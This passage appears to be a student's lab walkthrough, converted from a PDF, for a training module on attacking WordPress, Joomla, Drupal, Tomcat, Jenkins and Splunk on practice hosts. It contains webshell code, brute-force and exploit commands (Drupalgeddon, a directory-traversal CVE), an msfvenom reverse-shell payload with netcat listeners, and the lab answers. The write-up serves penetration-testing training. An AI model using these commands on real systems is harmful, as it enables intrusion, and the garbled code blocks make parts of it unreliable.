curl "http://blog.inlanefreight.local/wp-
```
content/themes/twentynineteen/404.php?0=ls%20-
l%20/var/www/blog.inlanefreight.local/flag_d8e8fca2dc0f896fd
7cb4cb0031ba249.txt"

yes, it is: (r is displayed for all user classes, r is for read permissions)


*_Figure 14.1 — Lab execution and output verification (Page 14)_*


*_Figure 14.2 — Lab execution and output verification (Page 14)_*


*_Figure 14.3 — Lab execution and output verification (Page 14)_*


### and when its on we will run the sequence of commands

#### Technical Methodology & Exploit Execution:

```bash
curl "http://blog.inlanefreight.local/wp-
```
content/themes/twentynineteen/404.php?0=cat%20/var/www/blog.
inlanefreight.local/flag_d8e8fca2dc0f896fd7cb4cb0031ba249.tx
t"


the arrow marked line is the flag!
method 2: we are going to use reverse shell, for that we will use 'metaspoilt' to
construct a payload – first, we launch the Metasploit with the command:
```bash
msfconsole
```
and when its on we will run the sequence of commands:
```bash
use exploit/unix/webapp/wp_admin_shell_upload
```
then:
```bash
set USERNAME doug
set PASSWORD jessica1
set LHOST <attacker-IP>
set RHOSTS <target-IP>
set VHOST blog.inlanefreight.local
```


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


once we are done, we enter
```bash
exploit
```
(we can enter 'show options' first to ensure all the fields are set correctly):
*Note – my attempt to use Metasploit to gain shell to the wordpress server
had failed, I don't know why. I keep this 'method 2' uncompleted in future
case the Metasploit problem will be solved. As for now, use method 1 to get
the answer.


### Joomla - Discovery & Enumeration

> **Lab Question (Page 17)**: Fingerprint the Joomla version in use on http://app.inlanefreight.local (Format: x.x.x)
>
> **Flag / Answer**: `3.10.0`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, we will do the 'initial configuration' on vhost
'app.inlanefreight.local'.
When it is done – we will run the command:
```bash
curl -s
```
http://dev.inlanefreight.local/administrator/manifests/files
/joomla.xml | xmllint --format -
to initiate Joomla discovery and Footprinting the 'Joomla' content and
management system, to be displayed in xml format:

Pay attention that the juma specified version is 3.10.0 (NOT to be confused
with the xml formatting version of 3.6 (extension schema))
*


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


*_Figure 17.2 — Lab execution and output verification (Page 17)_*


### and then run the tool with the command

> **Lab Question (Page 18)**: Find the password for the admin user on http://app.inlanefreight.local
>
> **Flag / Answer**: `turnkey`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we install the Joomla-bruteforce tool with the command:
git clone https://github.com/ajnik/joomla-bruteforce.git
when done, we go to the git directory (with 'cd Joomla-bruteforce' command)
and then run the tool with the command:
```bash
sudo python3 joomla-brute.py -u
```
http://dev.inlanefreight.local -w /usr/share/metasploit-
framework/data/wordlists/http_default_pass.txt -usr admin
we basically run bruteforce on the admin user from 'http_default_pass.txt'
wordlist:


Attacking Joomla:
Question: Leverage the directory traversal vulnerability to find a flag in the web
root of the http://dev.inlanefreight.local/ Joomla application
Answer: j00mla_c0re_d1rtrav3rsal!
Method: first, we will do the 'initial configuration' on vhost
'dev.inlanefreight.local'. then , there are 2 methods to proceed with the attack:
Method 1: we will use the server-side interface to obtain shell. (similar to how
we obtained shell on the Webpress section), for more extensive details about
how the method is used to exploit web server, it is recommented to refer to
the last 2 question of the section 'Attacking Wordpress', which in principal are
parallel to this question.
*note – this method is not the instructed method to obtain the flag, but I will
present it nonetheless:
First we will go to
http://dev.inlanefreight.local/administrator/
in the browser URL:


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


### Upon login we see this interface

The credentials we will enter are: admin:admin (the credentials are provided to
us by the module guide), then – we log in.
Upon login we see this interface:

I dont know what is this error but it doesn't matters, we go to
Extensions→Templates→Styles


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


*_Figure 19.2 — Lab execution and output verification (Page 19)_*


*_Figure 19.3 — Lab execution and output verification (Page 19)_*


### On the 'Styles' page, we scroll down a bit

#### Technical Methodology & Exploit Execution:

system($_GET['maliciousparameter']);

Then click 'Save'.
When this is done, we can use curl or the browser to run command and
retrieve data from the server.
The method to locate the flag file were displayed in detail in the parallel
question in the WordPress section, it will not be repeated here. In our purpose,
the flag file was located 2 directories above the present working directory
('pwd), and the file name is called
'flag_6470e394cbf6dab6a91682cc8585059b.txt'.


*_Figure 20.1 — Lab execution and output verification (Page 20)_*


*_Figure 20.2 — Lab execution and output verification (Page 20)_*


*_Figure 20.3 — Lab execution and output verification (Page 20)_*


### ../../flag_647xxx')

#### Technical Methodology & Exploit Execution:

git clone https://github.com/dpgg101/CVE-2019-10945.git
then we go our way in (with 'cd') to the created CVE-2019-10945 directory.
When we do, we run the command:
```bash
python3 CVE-2019-10945.py --url
```
"http://dev.inlanefreight.local/administrator/" --username
admin --password admin --dir /


*_Figure 21.1 — Lab execution and output verification (Page 21)_*


we get the lists of items within the main app directory
(/var/www/blog.inlanefreight.local/flag), and we use the previous method to
extract the flag content from there.
The use of method 1 is more recommended, but as in the question I was
explicitly requested to use the directory traversal vulnerability exploit, I did.


*_Figure 22.1 — Lab execution and output verification (Page 22)_*


*_Figure 22.2 — Lab execution and output verification (Page 22)_*


### Drupal - Discovery & Enumeration

> **Lab Question (Page 23)**: Identify the Drupal version number in use on http://drupal- qa.inlanefreight.local
>
> **Flag / Answer**: `7.30`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, we will do the 'initial configuration' on the vhosts
'drupal.inlanefreight.local' and 'drupal-qa.inlanefreight.local'.
Then – we run the command:
```bash
curl -s http://drupal-qa.inlanefreight.local/CHANGELOG.txt |
grep -m2 ""
```
(curl the address above, path '/CHANGELOG.txt', and display the first 2 lines):

The version is displayed.

Attacking Drupal:
Question: Work through all of the examples in this section and gain RCE
multiple ways via the various Drupal instances on the target host. When you
are done, submit the contents of the flag.txt file in the
/var/www/drupal.inlanefreight.local directory.
Answer: DrUp@l_drUp@l_3veryWh3Re!
Method: first, we will do the 'initial configuration' on the vhosts 'drupal-
dev.inlanefreight.local' and 'drupal-qa.inlanefreight.local'.
Then – got to
http://drupal-qa.inlanefreight.local/

now, we going to use the exploit 'Drupalgeddon' vulnerability (CVE-2014-3704)
to create a user with administrative privileges.
*Note – the other exploits mentioned in the module didn't work for me. *


*_Figure 23.1 — Lab execution and output verification (Page 23)_*


### Then we run it with the command

#### Technical Methodology & Exploit Execution:

python2.7 drupalgeddon.py -t http://drupal-
qa.inlanefreight.local -u hacker -p pwnd


Success, a new user called 'hacker' was created with the password 'pwnd'.
Lets login with the obtained credentials:


we successfully logged in to the user.
Lets confirm it is an admin, we to go 'People':

And we observe our user is an administrator.


*_Figure 24.1 — Lab execution and output verification (Page 24)_*


*_Figure 24.2 — Lab execution and output verification (Page 24)_*


*_Figure 24.3 — Lab execution and output verification (Page 24)_*


*_Figure 24.4 — Lab execution and output verification (Page 24)_*


### Then we select 'modules'

Then we select 'modules':

On modules, make sure 'PHP filter' is enabled and save configuration:

Then, we click on permissions:

And we make sure PHP code text format is enabled for administrator:

When we are done, we save the permissions.
When its done, we go to content → add content:

Then we go to 'basic page':


*_Figure 25.1 — Lab execution and output verification (Page 25)_*


*_Figure 25.2 — Lab execution and output verification (Page 25)_*


*_Figure 25.3 — Lab execution and output verification (Page 25)_*


*_Figure 25.4 — Lab execution and output verification (Page 25)_*


*_Figure 25.5 — Lab execution and output verification (Page 25)_*


*_Figure 25.6 — Lab execution and output verification (Page 25)_*


### Then we enter on body this script

#### Technical Methodology & Exploit Execution:

```bash
curl -s http://drupal-
```
qa.inlanefreight.local/node/4?maliciousparameter=pwd | grep
encoded
the reason the grep is necessary here, is because in here the output is the
entire html content of the page, and not just the desired output:


*_Figure 26.1 — Lab execution and output verification (Page 26)_*


*_Figure 26.2 — Lab execution and output verification (Page 26)_*


*_Figure 26.3 — Lab execution and output verification (Page 26)_*


*_Figure 26.4 — Lab execution and output verification (Page 26)_*


### For that we will run the command

#### Technical Methodology & Exploit Execution:

```bash
curl -s "http://drupal-
```
qa.inlanefreight.local/node/4?maliciousparameter=ls%20../dru
pal.inlanefreight.local"

After a bit of search, we can find the flag within the output:

Now all we have to do is the cat the flag value with the command:
```bash
curl -s "http://drupal-
```
qa.inlanefreight.local/node/4?maliciousparameter=cat%20../dr
upal.inlanefreight.local/flag_6470e394cbf6dab6a91682cc858505
9b.txt"


*note – filtering didn't work for me, so a search within the entire output is
required, but it wont take long.


*_Figure 27.1 — Lab execution and output verification (Page 27)_*


*_Figure 27.2 — Lab execution and output verification (Page 27)_*


### Servlet Containers/Software Development

> **Lab Question (Page 28)**: What version of Tomcat is running on the application located at http://web01.inlanefreight.local:8180?
>
> **Flag / Answer**: `10.0.10`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, we will do the 'initial configuration' on the vhosts 'app-
dev.inlanefreight.local' and 'web01.inlanefreight.local'.
Then, on browser to enter the URL:
http://web01.inlanefreight.local:8180/docs/
and immediately the answer shall be revealed:
*not always the tomcat service would be so obvious, we can also use
'EyeWitness' (the tool from the first section) to determine the website is
indeed powered by tomcat.


Question: What role does the admin user have in the configuration example?
Answer: admin-gui
Method: scan the URL with dirbuster (instructions how to install it were give in
previous section, refer there by searching 'dirbuster'), you will find the path
'manager/html':


*_Figure 28.1 — Lab execution and output verification (Page 28)_*


### we will get the following result

Then run
```bash
curl http://web01.inlanefreight.local:8180/manager/html |
grep role
```
we will get the following result:

*when running the command without grep, or entering the URL in the browser,
we will find out that there are only 2 roles: 'admin-gui' and 'admin-script'.
The role mentioned is for the user 'tomcat' currently, i could not get to the role
of 'admin'. *


*_Figure 29.1 — Lab execution and output verification (Page 29)_*


*_Figure 29.2 — Lab execution and output verification (Page 29)_*


### Attacking Tomcat

> **Lab Question (Page 30)**: Perform a login bruteforcing attack against Tomcat manager at http://web01.inlanefreight.local:8180. What is the valid username?
>
> **Flag / Answer**: `tomcat`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, we will do the 'initial configuration' on vhost
'web01.inlanefreight.local'.
Then, we going to use a Metasploit to bruteforce the Tomcat system:
First, we open Metasploit with 'msfconsole' command.
When it is done, we select 'scanner/http/tomcat_mgr_login' with:
```bash
use scanner/http/tomcat_mgr_login
```
then we set the parameters:
```bash
set VHOST web01.inlanefreight.local
set RPORT 8180
set stop_on_success true
set rhosts <target machine's IP>
```


We confirm with 'show options' that all parameters are set properly, and then
hit 'run' to begin the bruteforce, after several second, we will hit a login:


*_Figure 30.1 — Lab execution and output verification (Page 30)_*


*_Figure 30.2 — Lab execution and output verification (Page 30)_*


> **Lab Question (Page 31)**: What is the password?
>
> **Flag / Answer**: `root`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

the password was obtained via the bruteforce on the question above:


Question: Obtain remote code execution on the
http://web01.inlanefreight.local:8180 Tomcat instance. Find and submit the
contents of tomcat_flag.txt
Answer: t0mcat_rc3_ftw!
Method: on the last section (tomcat enumeration & discovery) we found the
Path
http://web01.inlanefreight.local:8180/manager/html
and we found that upon entering we are required to enter credentials:


*_Figure 31.1 — Lab execution and output verification (Page 31)_*


*_Figure 31.2 — Lab execution and output verification (Page 31)_*


### And where we can deploy new applications

So we enter the credentials we found on previous questions (tomcat:root):

And then we Sign in.
The login was successful and we got to the tomcat web application manager:


Where the different running application on the web-server are displayed for us
(with different operations we can run on any on them).
And where we can deploy new applications:


*_Figure 32.1 — Lab execution and output verification (Page 32)_*


*_Figure 32.2 — Lab execution and output verification (Page 32)_*


*_Figure 32.3 — Lab execution and output verification (Page 32)_*


### after several seconds, we will get the output

#### Technical Methodology & Exploit Execution:

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<pwnbox IP>
LPORT=<listening port> -f war > backup.war
after several seconds, we will get the output:

Lets confirm the output file backup.war exists:

The next step is to deploy the file on the web application manager, for that on
WAR file to deploy, we select browse:

Then we go to home directory (or wherever else we have saved the file):


*_Figure 33.1 — Lab execution and output verification (Page 33)_*


*_Figure 33.2 — Lab execution and output verification (Page 33)_*


*_Figure 33.3 — Lab execution and output verification (Page 33)_*


*_Figure 33.4 — Lab execution and output verification (Page 33)_*


### Once selected, we select deploy

#### Technical Methodology & Exploit Execution:

```bash
nc -lv 10.10.15.188 4443
```
where 10.10.15.188 is the pwnbox IP , and 4443 is the listening port, the same
parameters used for the backup.war payload, as it is the client that connects to
us.


*_Figure 34.1 — Lab execution and output verification (Page 34)_*


*_Figure 34.2 — Lab execution and output verification (Page 34)_*


*_Figure 34.3 — Lab execution and output verification (Page 34)_*


*_Figure 34.4 — Lab execution and output verification (Page 34)_*


### Upon clicking we get to this blank page

#### Technical Methodology & Exploit Execution:

```bash
find / -type f -name tomcat_flag.txt 2>/dev/null
```
the command will search for the tomcat_flag.txt, while disregarding error,
when found – it will display the path where the flag is found
*note: the command works only on the netcat shell, not on the webshell.

Once we know the path, all we have to do is to cat the path (in this shell it
might be required to stop it and start another session because ctrl+c wont stop
the search but the entire netcat session),
We will use the command
```bash
cat /opt/tomcat/apache-tomcat-
```
10.0.10/webapps/tomcat_flag.txt


*_Figure 35.1 — Lab execution and output verification (Page 35)_*


*_Figure 35.2 — Lab execution and output verification (Page 35)_*


*_Figure 35.3 — Lab execution and output verification (Page 35)_*


*_Figure 35.4 — Lab execution and output verification (Page 35)_*


*_Figure 35.5 — Lab execution and output verification (Page 35)_*


### Jenkins - Discovery & Enumeration

> **Lab Question (Page 36)**: Log in to the Jenkins instance at http://jenkins.inlanefreight.local:8000. Browse around and submit the version number when you are ready to move on.
>
> **Flag / Answer**: `2.303.1`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, we will do the 'initial configuration' on vhost
'jenkins.inlanefreight.local'.
When done, go in browser to
http://jenkins.inlanefreight.local:8000
you will reach a login page:

Enter the credentials admin:admin and Sign in.
When logged, we will get to the main dashboard:

From here there are 2 methods to proceed.
Method 1: go to manage Jenkins on the left:


*_Figure 36.1 — Lab execution and output verification (Page 36)_*


*_Figure 36.2 — Lab execution and output verification (Page 36)_*


### Then scroll down a bit and go to 'About Jenkins'

Then scroll down a bit and go to 'About Jenkins':

Where it is explicitly mentions the version.
On the about page, the version is displayed right on the top:

Further down, we can observe the versions of various dependencies.


*_Figure 37.1 — Lab execution and output verification (Page 37)_*


*_Figure 37.2 — Lab execution and output verification (Page 37)_*


*_Figure 37.3 — Lab execution and output verification (Page 37)_*


### Attacking Jenkins

> **Lab Question (Page 38)**: Attack the Jenkins target and gain remote code execution. Submit the contents of the flag.txt file in the /var/lib/jenkins3 directory
>
> **Flag / Answer**: `f33ling_gr00000vy!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, login to the website with the same credentials as the previous
question:

From here, we will use the 'script console' to run 'Apache Groovy' scripts, For
that we will enter the url path '/script' for the script console:


*_Figure 38.1 — Lab execution and output verification (Page 38)_*


*_Figure 38.2 — Lab execution and output verification (Page 38)_*


### for example

We will use this chain of commands to obtain the information we need:
def cmd = '<my-command>'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
for example:

Which tells us we in the right directory to look for the flag.
And running ls confirms the flag existence there:

All we have to do is cat the flag:


*_Figure 39.1 — Lab execution and output verification (Page 39)_*


*_Figure 39.2 — Lab execution and output verification (Page 39)_*


*_Figure 39.3 — Lab execution and output verification (Page 39)_*


*_Figure 39.4 — Lab execution and output verification (Page 39)_*


### Infrastructure/Network Monitoring Tools

> **Lab Question (Page 40)**: Enumerate the Splunk instance as an unauthenticated user. Submit the version number to move on (format 1.2.3).
>
> **Flag / Answer**: `8.2.2`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

conduct nmap scan on the target, where service determination (-sV)
and port range of 1-10000 (-p 1-10000):
```bash
sudo nmap -sV <target-IP> -p 1-10000
```


We can observe that port 8000 is open – the default port for splunk, and the
service running on it is ssl/http (https). We also pay attention for that the
Splunk is running on Windows OS.
So we enter in the browser the URL
https://<target-IP>:8000
and it takes us to a warning page:


*_Figure 40.1 — Lab execution and output verification (Page 40)_*


*_Figure 40.2 — Lab execution and output verification (Page 40)_*


### and then 'About'

Select 'Advance' and then 'Accept the Risk and Continue'.
Then we get to the home page (dashboard) – in it select in the top right 'Help'
and then 'About':

The version will be immediately be revealed:


*_Figure 41.1 — Lab execution and output verification (Page 41)_*


*_Figure 41.2 — Lab execution and output verification (Page 41)_*


### Attacking Splunk

> **Lab Question (Page 42)**: Attack the Splunk target and gain remote code execution. Submit the contents of the flag.txt file in the c:\loot directory.
>
> **Flag / Answer**: `l00k_ma_no_AutH!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in previous section (Splunk enumeration) – we learned that the
Splunk service is running on Windows OS.
So we will use this GitHub repository to create PowerShell script to grant us
remote code execution.
First we clone the repositoy:
git clone
https://github.com/0xjpuff/reverse_shell_splunk.git

and then enter the created directory:

Lets observe the run.ps1 Powershell script:

we need to enter the pwnbox IP and port 443 (https) where requested:


*_Figure 42.1 — Lab execution and output verification (Page 42)_*


*_Figure 42.2 — Lab execution and output verification (Page 42)_*


*_Figure 42.3 — Lab execution and output verification (Page 42)_*


### Then, we will use this command

#### Technical Methodology & Exploit Execution:

```bash
tar -cvzf updater.tar.gz reverse_shell_splunk/
```
to compress with gzip the content of 'reverse_shell_splunk/' directory
(recursively) to an output file 'updater.tar.gz':


next, on the splunk dashboard, we go to the apps section by clicking the cog:

On Apps page – select 'Install app from file'

Insert the tar.gz file created earlier, but don't upload yet.


*_Figure 43.1 — Lab execution and output verification (Page 43)_*


*_Figure 43.2 — Lab execution and output verification (Page 43)_*


*_Figure 43.3 — Lab execution and output verification (Page 43)_*


### When its done, we will obtain reverse shell

#### Technical Methodology & Exploit Execution:

```bash
sudo nc -lnvp 443
```
(the sudo is of course required as 443 is privileged port)

Once we have a listen – we may upload the tar.gz file.
When its done, we will obtain reverse shell:

When shell obtained, we run 'pwd' to determine our current location within
the target machine:


*_Figure 44.1 — Lab execution and output verification (Page 44)_*


*_Figure 44.2 — Lab execution and output verification (Page 44)_*


*_Figure 44.3 — Lab execution and output verification (Page 44)_*


### Then, we locate and get the flag content

